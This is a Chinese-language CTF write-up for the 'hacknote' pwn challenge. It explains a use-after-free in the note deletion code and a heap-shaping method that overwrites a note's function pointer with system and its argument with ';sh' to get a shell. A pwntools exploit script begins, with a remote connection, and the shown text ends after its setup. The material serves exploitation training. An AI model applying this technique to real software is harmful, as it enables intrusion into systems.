 ## hacknote

#### 漏洞分析

典型的菜单题没有，edit。

首先来看一下note的结构体。

```c
00000000 note_info       struc ; (sizeof=0x8, mappedto_7)
00000000                                         ; XREF: .bss:note_/r
00000000 func_ptr        dd ?                    ; XREF: add+40/r
00000000                                         ; add+61/w ...
00000004 note_ptr        dd ?
00000008 note_info       ends
```

前四个字节是函数地址，通常是保存的puts的地址，在show的时候会直接调用打印note。后四个字节是note的chunk的地址。

漏洞是一个UAF。

```c
printf("Index :");
  read(0, buf, 4u);
  v1 = atoi(buf);
  if ( v1 < 0 || v1 >= times )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&note_ + v1) )
  {
    free((void *)(*(&note_ + v1))->note_ptr);
    free(*(&note_ + v1));//两个指针都没有清零
    puts("Success");
  }
```

#### 漏洞利用

首先泄露libc，还是可以使用unsorted bin进行泄露。

因为只给了5次申请的机会所以没有办法使用double free。先申请一个0x8的note0释放掉，这样0x10的bins里面就有两个chunk。第一个是info，第二个是note。再申请一个不是0x8的note1释放掉，这样bins就会是这样的：info1->info0->note0==。这样再申请一个0x8的note就可以对info0进行编辑。把func改成sysytem，note地址改成"；sh"。这个；主要是为了将sh与前面的垃圾命令分开，这样system就可以执行两条命令。==

之后再show note0就可以拿到shell。

这里的知识点主要就是怎么样将sh命令和垃圾数据进行分割。

#### EXP:

```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./hacknote"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=[]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("node3.buuoj.cn",29876)
```